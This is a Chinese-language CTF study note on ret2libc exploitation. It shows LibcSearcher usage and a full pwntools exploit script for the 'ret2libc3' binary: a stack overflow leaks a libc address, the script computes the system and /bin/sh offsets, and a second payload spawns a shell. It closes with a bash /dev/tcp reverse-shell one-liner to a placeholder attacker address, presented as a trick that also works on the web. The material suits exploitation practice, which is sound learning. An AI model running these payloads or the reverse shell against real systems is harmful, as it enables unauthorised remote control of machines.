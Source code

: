 **Libc Data Base**

-   _已知两个function的address时可以在libcdb里找对应的版本_

    -   _~✘网站：libcdb.com:the libc data base~_
    -   _✘网站：[libc.nullbyte.cat](https://libc.nullbyte.cat/)_
    -   _✔使用[LibcSearcher](https://github.com/lieanu/LibcSearcher)_

    ```python
    from LibcSearcher import *

    #第二个参数，为已泄露的实际地址,或最后12位(比如：d90)，int类型
    obj = LibcSearcher("fgets", 0X7ff39014bd90)

    obj.dump("system")        #system 偏移
    obj.dump("str_bin_sh")    #/bin/sh 偏移
    obj.dump("__libc_start_main_ret")  
    ```

**Leak libc base**
_一般leak \_\_libc_start_main的地址，通过LibcSearcher获取system与/bin/sh的地址，再跳转回main触发溢出执行system('/bin/sh')_

**例子：**[ret2libc3](/uploads/codes/w5/ret2libc3)


```python
#!/usr/bin/env python
from pwn import *
from LibcSearcher import LibcSearcher
sh = process('./ret2libc3')

ret2libc3 = ELF('./ret2libc3')

puts_plt = ret2libc3.plt['puts']
libc_start_main_got = ret2libc3.got['__libc_start_main']
main = ret2libc3.symbols['main']

print "leak libc_start_main_got addr and return to main again"
payload = flat(['A' * 112, puts_plt, main, libc_start_main_got])
sh.sendlineafter('Can you find it !?', payload)

print "get the related addr"
libc_start_main_addr = u32(sh.recv()[0:4])
libc = LibcSearcher('__libc_start_main', libc_start_main_addr)
libcbase = libc_start_main_addr - libc.dump('__libc_start_main')
system_addr = libcbase + libc.dump('system')
binsh_addr = libcbase + libc.dump('str_bin_sh')

print "get shell"
payload = flat(['A' * 104, system_addr, 0xdeadbeef, binsh_addr])
sh.sendline(payload)

sh.interactive()
```

**trick:开启reverse tcp shell(web同时适用)**
system("bash -c 'bash -i >& /dev/tcp/to.your.ip.addr/31337 0>&1'")
